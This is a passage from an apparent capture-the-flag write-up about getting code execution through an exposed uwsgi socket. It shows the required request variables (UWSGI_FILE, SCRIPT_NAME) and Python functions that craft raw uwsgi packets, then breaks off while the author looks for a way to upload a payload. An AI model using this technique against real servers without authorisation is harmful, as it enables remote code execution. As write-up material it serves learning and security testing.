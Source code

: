 ```
00000150: 505f 4143 4345 5054 5f45 4e43 4f44 494e  P_ACCEPT_ENCODIN
00000160: 470d 0067 7a69 702c 2064 6566 6c61 7465  G..gzip, deflate
00000170: 0b00 4854 5450 5f41 4343 4550 5403 002a  ..HTTP_ACCEPT..*
00000180: 2f2a 0f00 4854 5450 5f43 4f4e 4e45 4354  /*..HTTP_CONNECT
00000190: 494f 4e0a 006b 6565 702d 616c 6976 65    ION..keep-alive
```

note that some variables are required to query uwsgi socket.
After some trying, I found important variables `UWSGI_FILE` and `SCRIPT_NAME` used to specify script path to be executed.
`UWSGI_FILE` is path to script and `SCRIPT_NAME` is just something related to function name to trigger (I don't know but not important).

So it's enough to execute arbirary script if I could query uwsgi socket with following variables:
```
{
    'QUERY_STRING': '',
    'REQUEST_METHOD': 'GET',
    'REQUEST_URI': '/',
    'PATH_INFO': '/',
    'SERVER_PROTOCOL': 'HTTP/1.1',
    'DOCUMENT_ROOT': '/',
    'SERVER_NAME': '',
    'HTTP_HOST': '100.100.0.5:8080',
    'UWSGI_FILE': 'path to script',
    'SCRIPT_NAME': '/a=foo'
}
```

Of course I need to send arbitrary tcp packet to query uwsgi since they are using special binary protocol.
You can find the details of uwsgi protocol at [uwsgi documentation](https://uwsgi-docs.readthedocs.io/en/latest/Protocol.html). 
It is really simple like `2 byte (length) + n byte (data)`.

Here is example code to craft uwsgi packet (using [this](https://gist.github.com/wofeiwo/9f38ef8f8562e28d741638d6de3891f6) as reference):

```python
def pack_uwsgi_vars(var):
    pk = b''
    for k, v in var.items():
        pk += p16(len(k)) + k.encode('utf8') + p16(len(v)) + v.encode('utf8')
    result = b'\x00' + p16(len(pk)) + b'\x00' + pk
    return result

def gen_packet(var, body=''):
    return pack_uwsgi_vars(var) + body.encode('utf8')
```


Now I can execute arbitrary script on the server, but how to upload my payload on the server?

First I tried to connect back to my laptop from the web server but it didn't work.
So I tried to upload valid python script using some error message generated by web server, but it was really hard and seems that is impossible.
